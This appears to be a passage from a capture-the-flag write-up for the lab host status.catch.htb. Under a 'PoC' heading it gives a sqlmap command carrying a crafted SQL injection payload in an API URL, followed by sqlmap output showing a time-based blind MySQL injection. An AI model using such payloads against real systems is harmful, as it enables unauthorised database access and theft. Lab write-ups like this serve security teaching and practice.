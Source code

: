 ### 2.1 PoC
#

```shell
─$ sqlmap -u "http://status.catch.htb:8000/api/v1/components?name=1&1[0]=&1[1]=a&1[2]=&1[3]=or+%27a%27=%3F%20and%201=1)*+--+" --batch                                                                                                       
        ___
       __H__                                                                                                                                                                                                                                 
 ___ ___["]_____ ___ ___  {1.6.6#stable}                                                                                                                                                                                                     
|_ -| . ["]     | .'| . |                                                                                                                                                                                                                    
|___|_  [.]_|_|_|__,|  _|                                                                                                                                                                                                                    
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                                                                 

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 05:21:19 /2022-07-13/

custom injection marker ('*') found in option '-u'. Do you want to process it? [Y/n/q] Y
[05:21:20] [INFO] testing connection to the target URL
[05:21:20] [CRITICAL] previous heuristics detected that the target is protected by some kind of WAF/IPS
[05:21:20] [INFO] testing if the target URL content is stable
[05:21:21] [INFO] target URL content is stable
[05:21:21] [INFO] testing if URI parameter '#1*' is dynamic
[05:21:21] [WARNING] URI parameter '#1*' does not appear to be dynamic
[05:21:21] [WARNING] heuristic (basic) test shows that URI parameter '#1*' might not be injectable
[05:21:21] [INFO] testing for SQL injection on URI parameter '#1*'
[05:21:21] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[05:21:23] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[05:21:23] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[05:21:24] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[05:21:25] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[05:21:26] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[05:21:26] [INFO] testing 'Generic inline queries'
[05:21:26] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[05:21:27] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[05:21:28] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[05:21:28] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[05:21:39] [INFO] URI parameter '#1*' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[05:21:39] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[05:21:39] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
```
